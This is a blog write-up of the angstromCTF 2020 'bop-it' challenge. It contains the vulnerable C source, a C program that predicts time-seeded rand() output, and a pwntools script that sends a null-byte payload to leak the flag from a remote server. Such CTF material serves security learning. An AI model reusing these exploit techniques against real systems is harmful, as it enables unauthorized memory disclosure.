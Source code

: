 ```yaml
---
layout: post
title:  "nullbyte poisoning angstromCTF 2020 bop-it writeup"
date:   2020-03-23 #13:52:01
categories: ctf
description: this article explains about my writeup.
tags: ctf writeup
---
```


Description:

    Can you bop it? Source. Connect with nc shell.actf.co 20702.

    Author: kmh

Solution:

we are given elf binary , and a source code written in c

    bop_it: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV),
    dynamically linked, interpreter /lib64/l, BuildID[sha1]=47225f15fc7f75398783b4e93d65627f37711392,
    for GNU/Linux 3.2.0, not stripped


this is the source code :
{% highlight C %}
#include <stdlib.h>
#include <time.h>
#include <stdio.h>
#include <string.h>

int main() {
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);

	gid_t gid = getegid();
	setresgid(gid, gid, gid);

	const char *actions[] = {"Bop it!\n", "Twist it!\n", "Pull it!\n", "Flag it!\n"};

	srand(time(NULL));

	char c;
	char *action = actions[rand()%4];
	write(1, action, strlen(action));
	while ((c = getchar()) != EOF) {
		if (!strcmp(action, actions[3])) {
			char guess[256];
			guess[0] = c;
			int guessLen = read(0, guess+1, 255)+1; //add to already entered char
			guess[guessLen-1] = 0; //remove newline
			char flag[32];
			FILE *f = fopen("flag.txt", "rb");
			int r = fread(flag, 1, 32, f);
			flag[r] = 0; //null terminate
			if (strncmp(guess, flag, strlen(flag))) {
				char wrong[strlen(guess)+35];
				wrong[0] = 0; //string is empty intially
				strncat(wrong, guess, guessLen);
				strncat(wrong, " was wrong. Better luck next time!\n", 35);
				write(1, wrong, guessLen+35);
				exit(0);
			}
		} else if (c != action[0]) {
			char wrong[64] = "_ was wrong. What you wanted was _!\n";
			wrong[0] = c; //user inputted char
			wrong[strlen(wrong)-3] = action[0]; //correct char
			write(1, wrong, strlen(wrong));
			getchar(); //so there's no leftover newline
			exit(0);
		} else { getchar(); }
		action = actions[rand()%4];
		write(1, action, strlen(action));
	}
}

{% endhighlight %}

we have to answer the correct question from
{% highlight c %}
const char *actions[] = {"Bop it!\n", "Twist it!\n", "Pull it!\n", "Flag it!\n"};
srand(time(NULL));
char *action = actions[rand()%4];
{% endhighlight %}

till we got "Flag it!\n" as the answer , so the flag will loaded to the stack
and we can try to leak the flag by using null byte poisoning

this is my exploit to answer the correct question
{% highlight C %}
#include <stdlib.h>
#include <time.h>
#include <stdio.h>
#include <string.h>

int main(){
  srand(time(NULL));

  const char *actions[] = {"Bop it!\n", "Twist it!\n", "Pull it!\n", "Flag it!\n"};

  char c;
	char *action = actions[rand()%4];
  write(1, action, 1);
  // wrong[strlen(wrong)-3] = action[0];
  // write(1, wrong, strlen(wrong));
}
{% endhighlight %}

and this is the python code to send our payload
{% highlight python %}
#!/usr/bin/env python2
'''
    author : tripoloski
    visit  : https://tripoloski1337.github.io/
    mail   : arsalan.dp@gmail.com
    generated by skeloski GEF
'''
import sys
from pwn import *
import subprocess
context.update(arch="amd64", endian="little", os="linux", log_level="debug",)
LOCAL, REMOTE = False, False
TARGET=os.path.realpath("/home/tripoloski/code/ctf/angstrom2020/pwn/bop-it/bop_it")
elf = ELF(TARGET)

def attach(r):
    if LOCAL:
        bkps = []
        gdb.attach(r, '\n'.join(["break %s"%(x,) for x in bkps]))
    return

def exploit(r):
    attach(r)
    guess = subprocess.Popen(['./s'] , stdout=PIPE).communicate()[0]
    log.info("my guess : " + (guess))
    p = guess
    x = "\x00" *120 # 100 works , 120 works too
    r.sendline(p)
    r.sendline(x)
    r.interactive()
    # r.recvline(timeout=0)
    r.close()
    return

if __name__ == "__main__":
    if len(sys.argv)==2 and sys.argv[1]=="remote":
        REMOTE = True
        r = remote("shell.actf.co", 20702)
    else:
        LOCAL = True
        r = process([TARGET,])
    exploit(r)
    sys.exit(0)

{% endhighlight %}

and we got our flag

<img src='/images/2020-03-23-210546_672x515_scrot.png' />

FLAG : actf{bopp1ty_bop_bOp_b0p}
